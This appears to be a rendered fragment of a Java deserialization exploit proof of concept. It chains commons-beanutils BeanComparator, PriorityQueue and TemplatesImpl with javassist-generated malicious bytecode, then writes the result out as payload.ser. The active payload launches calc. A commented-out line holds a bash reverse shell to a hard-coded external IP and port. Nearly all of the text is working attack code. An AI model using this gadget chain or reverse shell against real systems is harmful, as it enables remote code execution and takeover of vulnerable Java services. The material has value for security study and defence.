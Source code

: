 ```java
        BeanComparator beanComparator = new BeanComparator("outputProperties",new AttrCompare());


        //CC2
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class<PriorityQueue> priorityQueueClass = PriorityQueue.class;
        Field comparator = priorityQueueClass.getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue,beanComparator);

        serialize(priorityQueue);
        unserialize("payload.ser");
    }

    //封装serialize
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("payload.ser"));
        oos.writeObject(object);
    }

    //封装unserialize
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static void setFieldValue(Object object,String field_name,Object filed_value) throws NoSuchFieldException, IllegalAccessException {
        Class clazz=object.getClass();
        Field declaredField=clazz.getDeclaredField(field_name);
        declaredField.setAccessible(true);
        declaredField.set(object,filed_value);
    }
    public static byte[] getEvilBytes() throws NotFoundException, CannotCompileException, IOException, NotFoundException, CannotCompileException, NotFoundException, CannotCompileException {
        ClassPool classPool = new ClassPool(true);
        CtClass hello = classPool.makeClass("Hello");
        CtClass ctClass = classPool.getCtClass("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        hello.setSuperclass(ctClass);
        CtConstructor ctConstructor=new CtConstructor(new CtClass[]{},hello);
        //ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/bash\",\"-c\",\"bash -i >& /dev/tcp/101.42.224.57/8080 0>&1\"});");
        ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        hello.addConstructor(ctConstructor);
        byte[] bytes=hello.toBytecode();
        hello.detach();
        return bytes;
    }
    public static Object getTemplatesImpl() throws IOException, NoSuchFieldException, IllegalAccessException, NotFoundException, CannotCompileException {
        TemplatesImpl templates=new TemplatesImpl();
        byte[] evilBytes=getEvilBytes();
        setFieldValue(templates,"_name","JYcxk");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templates,"_bytecodes",new byte[][]{evilBytes});
```
